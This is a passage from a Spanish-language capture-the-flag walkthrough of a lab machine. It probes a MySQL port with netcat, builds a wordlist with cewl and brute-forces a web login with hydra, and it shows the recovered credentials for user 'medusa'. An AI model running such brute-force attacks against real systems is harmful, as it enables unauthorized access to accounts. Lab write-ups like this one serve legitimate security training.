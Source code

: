 Por lo que vemos hay un puerto `3306` que pertenece a `mysql` pero si nos intentamos conectar a el, vemos que no nos deja como si no estuviera dicho puerto, si utilizamos `nc` para ver que pasa por ahi veremos esto.

## Netcat

```shell
nc <IP> 3306
```

Info:

```
We have to change this, I told Medusa to protect this more.
```

Solo nos dice ese mensaje por lo que suponemos que sera un usuario, iremos a la pagina web que hay, veremos dentro que hay un boton de `Login` en el que nos lleva a un inicio de sesion, como descubrimos antes que hay un usuario crearemos un diccionario de contraseñas para probar con el usuario en la pagina del login de la siguiente forma.

## cewl

```shell
cewl http://<IP>/ -w dic.txt
```

Esto nos creara un diccionario de palabras de la pagina web de la pagina principal, despues le tiraremos un `hydra` al formulario web con ese diccionario y ese usuario.

## hydra

```shell
hydra -l medusa -P dic.txt <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-23 15:19:12
[DATA] max 16 tasks per 1 server, overall 16 tasks, 138 login tries (l:1/p:138), ~9 tries per task
[DATA] attacking http-post-form://172.18.0.2:80/login.php:username=^USER^&password=^PASS^:Invalid credentials
[80][http-post-form] host: 172.18.0.2   login: medusa   password: enthusiasts
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-23 15:19:14
```

Vemos que nos saca unas credenciales, por lo que las utilizaremos en el login, vemos que nos inicia sesion metiendo dichas credenciales y que vemos una pagina `secreta` pero si inspeccionamos el codigo y bajamos un poco, veremos lo siguiente.
